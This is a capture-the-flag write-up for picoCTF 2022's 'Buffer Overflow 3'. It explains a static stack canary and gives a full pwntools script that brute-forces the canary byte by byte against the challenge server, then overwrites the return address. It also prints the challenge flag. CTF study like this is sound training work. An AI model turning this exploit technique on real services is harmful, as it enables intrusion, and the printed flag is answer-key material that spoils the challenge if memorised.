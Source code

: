 ```yaml
---
slug: /articles/buffer-overflow-3
title: Buffer Overflow 3
date: 30/03/2022
category: pwn
thumbnail: thumbnail.png
description: A buffer overflow with static canary protection.
author: Elf
ctf: picoCTF 2022
---
```


# Buffer Overflow 3

As always, we have a binary running on a server we need to exploit to get the flag. We still have access to the binary file and to the source code.<br>
As the name of the challenge implies, it's a buffer overflow. But this time, a canary is in place to protect the binary.<br>
The issue resides in the fact that the canary is not random but taken from a file, meaning it'll always be the same.

Knowing this, we can bruteforce it pretty easily. Bruteforcing the entire canary at once would be way too long to be achievable, but as the canary has always the same value, we can bruteforce it byte by byte.

We can put just enough garbage data to fill the stack until the canary, then only overwrite one byte of the canary and see if it crashes.<br>
As long as it does, we know this is not the right byte and we can try the next one.<br>
When the program completes without crashing, we know we have used the right byte to overwrite the canary's first byte. We can then keep it and try the same process against the second byte, and so on, to leak the whole canary.

Here is my exploit script:

```py
from pwn import *

domain = "saturn.picoctf.net"
port = 60618

def get_canary():
    canary_bytes = []

    for i in range(4):
        canary_bytes.append(0)
        for j in range(256):
            canary_bytes[i] = (j + 65) % 256 # +65 is to speed up the process : I guess the canary is composed of letters that has a meaning, and letters begin at value 65 (A)

            p = remote(domain, port)

            p.recv()
            p.send(b"9999\n")
            p.recv()
            p.send(b"A" * 64 + "".join([chr(o) for o in canary_bytes]).encode("utf-8"))
            result = p.recvall().decode("utf-8")
            if "Stack Smashing Detected" not in result:
                context.log_level = "info"
                log.info(f"Found byte {i + 1} of the canary = {canary_bytes[i]}")
                context.log_level = "error"
                break
                
            assert(j < 255) # we should never end up at the end of the loop without having found the right canary byte value we're after

    return "".join([chr(o) for o in canary_bytes]).encode("utf-8")

p = remote(domain, port)
context.log_level = "error"

canary = get_canary()
win = p32(0x8049336)

p.recv().decode("utf-8")
p.send(b"9999\n")
p.recv().decode("utf-8")
p.send(b"A" * 64 + canary + p32(0) * 4 + win)

context.log_level = "info"
log.info(p.recvall().decode("utf-8"))
```

Once we leaked the canary, we successfully exploit the buffer overflow to get the flag.

![](flag.png)

Flag: `picoCTF{Stat1C_c4n4r13s_4R3_b4D_32625866}`
